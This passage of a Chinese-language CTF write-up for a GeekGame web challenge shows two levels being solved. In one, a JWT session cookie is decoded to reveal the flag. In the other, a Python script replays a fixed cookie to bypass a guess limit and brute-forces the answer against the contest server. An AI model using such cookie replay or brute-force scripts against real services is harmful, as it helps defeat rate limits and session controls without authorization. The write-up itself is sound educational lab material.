 这种Web题拿到就会去看网络请求头，看能不能挖出点啥，然后看到Level2的Cookie非常奇怪：

![](https://fastly.jsdelivr.net/gh/windshadow233/BlogStorage@files/png/0011b5add349e2eb962649e196133a23.png)
搜了一下PLAY_SESSION，搜到一个[Play Framework的网站](https://www.playframework.com/documentation/2.8.x/SettingsSession)，里面说明了这串字符串是通过 [JSON Web Token](https://tools.ietf.org/html/rfc7519)编码的。于是随便找了一个JWT在线解码：

![](https://fastly.jsdelivr.net/gh/windshadow233/BlogStorage@files/png/73afeacba5f3bbdc47aa949d5762968f.png)
flag{d3c0d1n9_jwT_15_345y}

这样看第二题解起来似乎比第一题还快（x


### Level3


第三题的Cookie就要短很多了，也少了上一题那种有明显规律的字符，不过既然解上一题时查到了JWT，那么也拿来解密一下看看有哪些内容：

![](https://fastly.jsdelivr.net/gh/windshadow233/BlogStorage@files/png/bf9fdb9d6ad46bb9d84012fe95f6393e.png)
诶，发现有一个神奇的seed，以及剩余的猜测次数。看到seed就想起随机数，可能和题目答案有关，那我如果每次都带着同一个cookie去猜，会不会答案和剩余次数都不会发生变化呢？带着这个猜测我去试了一下，发现果然如此。


那么这题就和第一题没啥区别了，把第一题的代码改改直接用：

```python
import requests
import re
import tqdm

url = 'https://prob14.geekgame.pku.edu.cn/level3'
exist = set()
session = requests.session()
r = session.get(url)
headers = {'Cookie': '='.join(session.cookies.items()[0])}
guess = re.search(r'placeholder=\"(.*)\"', r.text).groups()[0]
ans = {i: None for i in range(64)}
try:
    while 1:
        params = {'guess': guess}
        r = requests.get(url, params=params, headers=headers).text
        res = re.search(r'results\.push\(\"(.*)\"\)', r).groups()[0]
        for i in range(64):
            if res[i] == '🟨':
                print('🟨', guess[i])
                exist.add(guess[i])
            elif res[i] == '🟩':
                print('🟩', guess[i])
                exist.add(guess[i])
        print(len(exist))
        guess = re.search(r'placeholder=\"(.*)\"', r).groups()[0]
except KeyboardInterrupt:
    print("Break")


for item in tqdm.tqdm(exist):
    guess = item * 64
    params = {'guess': guess}
    r = requests.get(url, params=params, headers=headers).text
    res = re.search(r'results\.push\(\"(.*)\"\)', r).groups()[0]
    for i in range(64):
        if res[i] == '🟩':
            ans[i] = item

r = requests.get(url, params={'guess': ''.join(ans.values())}, headers=headers).text
print(re.findall(r'flag{.*}', r)[0])

```